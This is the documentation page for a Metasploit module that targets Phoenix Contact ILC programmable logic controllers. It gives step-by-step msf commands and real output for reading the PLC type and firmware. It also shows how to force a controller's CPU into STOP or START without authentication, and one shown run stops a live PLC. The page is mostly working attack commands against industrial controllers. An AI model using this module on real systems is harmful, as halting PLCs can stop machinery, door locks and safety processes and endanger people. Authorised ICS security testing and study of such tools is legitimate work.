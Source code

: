 PhoenixContact Programmable Logic Controllers are built are using a variant of ProConOS. 
 Communicating using a proprietary protocol over ports TCP/1962 and TCP/41100 or TCP/20547.
It allows a remote user to read out the PLC Type, Firmware and Build number on port TCP/1962.
And also to read out the CPU State (Running or Stopped) AND start or stop the CPU on 
 port TCP/20547 (confirmed for the PLC series ILC 15x and 17x)
 or   TCP/41100 (confirmed for the ILC 39x series)
 other series may or may not work, a very big chance that they will

## Vulnerable Application

This is a hardware zero-day vulnerability that CANNOT be patched, the only mittigation is pulling the plug (literally),
 adding a separate network in front of it (Firewall, Router, IDS, IPS, network segmentation, etc...)
 or not allowing bad people on your network 
 
In general most, if not all, PLC's (computers that control engines, robots, conveyor belts, sensors, camera's, doorlocks, CRACs ...)
 have this vulnerability where, using their own tools, remote configuration and programming can be done *WITHOUT* authentication
 Investigators and underground hackers are just now creating simple tools to convert the often proprietary protocols into (simple) scripts
 
The most important word here is proprietary. Right now the only thing stopping very bad stuff from happening.
 PhoenixContact uses an (unnamed?) low-level protocol for connection, information exchange and configuration of its PLC devices
 This script utilises that protocol for finding information and switching the PLC mode from STOP to RUN and vice versa

## Verification Steps

The following demonstrates a basic scenario, we "found" two devices with an open port TCP/1962:

```
msf > search phoenix
msf > use auxiliary/admin/scada/phoenix_command
msf auxiliary(phoenix_command) > set RHOST 10.66.56.12
RHOST => 10.66.56.12
msf auxiliary(phoenix_command) > run

[*] 10.66.56.12:0 - PLC Type = ILC 150 GSM/GPRS
[*] 10.66.56.12:0 - Firmware = 3.71
[*] 10.66.56.12:0 - Build    = 07/13/11 12:00:00
[*] 10.66.56.12:0 - ------------------------------------
[*] 10.66.56.12:0 - --> Detected 15x/17x series, getting current CPU state:
[*] 10.66.56.12:0 - CPU Mode = RUN
[*] 10.66.56.12:0 - ------------------------------------
[*] 10.66.56.12:0 - --> No action specified (NOOP), stopping here
[*] Auxiliary module execution completed

msf auxiliary(phoenix_command) > set RHOST 10.66.56.72
RHOST => 10.66.56.72
msf auxiliary(phoenix_command) > set ACTION REV
ACTION => REV
msf auxiliary(phoenix_command) > run
[*] 10.66.56.72:0 - PLC Type = ILC 390 PN 2TX-IB
[*] 10.66.56.72:0 - Firmware = 3.95
[*] 10.66.56.72:0 - Build    = 02/14/11 14:04:47
[*] 10.66.56.72:0 - ------------------------------------
[*] 10.66.56.72:0 - --> Detected 39x series, getting current CPU state:
[*] 10.66.56.72:0 - CPU Mode = RUN
[*] 10.66.56.72:0 - ------------------------------------
[*] 10.66.56.72:0 - --> Sending STOP now
[*] 10.66.56.72:0 - CPU Mode = STOP
[*] Auxiliary module execution completed
```

## Options
```
msf auxiliary(phoenix_command) > show options

Module options (auxiliary/admin/scada/phoenix_command):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ACTION     NOOP             yes       PLC CPU action, REV means reverse state (Accepted: STOP, START, REV, NOOP)
   RHOST                       yes       The target address
   RINFOPORT  1962             yes       Set info port
   RPORT                       no        Set action port, will try autodetect when not set
```

By default, the module only reads out the PLC Type, Firmware version, Build date and current CPU mode (RUNning or STOPped)

The first three pieces of data (Type, Firmware & Build) are always found on port TCP/1962 
 (there is no way of changing that port on the PLC, so also no reason to change the 'RINFOPORT' option)

 The CPU mode uses a TCP port depending on the PLC Type, the module will automatically detect the type and port to use,
but can be overridden with the 'RPORT' option, however no real reason to configure it.
--> If 'RPORT' is set for some reason (e.g. because of an earlier "setg RPORT" command), it can be unset with:
```
msf auxiliary(phoenix_command) > unset RPORT
Unsetting RPORT...
```

**The ACTION option**
Action only has four (4) possible values:

By default, the module will do nothing to the PLC, therefore No Operation or 'NOOP'
```
msf auxiliary(phoenix_command) > set ACTION NOOP
```

The PLC can be forced to go into STOP mode, meaning it stops all execution and all outputs are set to low
```
msf auxiliary(phoenix_command) > set ACTION STOP
```

The PLC can be forced to go into RUN mode, it keeps running it was or it will start executing its current boot programming
```
msf auxiliary(phoenix_command) > set ACTION START
```

The module can also just read out the CPU mode and then reverse whatever it finds, RUN becomes STOP, STOP becomes RUN
```
msf auxiliary(phoenix_command) > set ACTION REV
```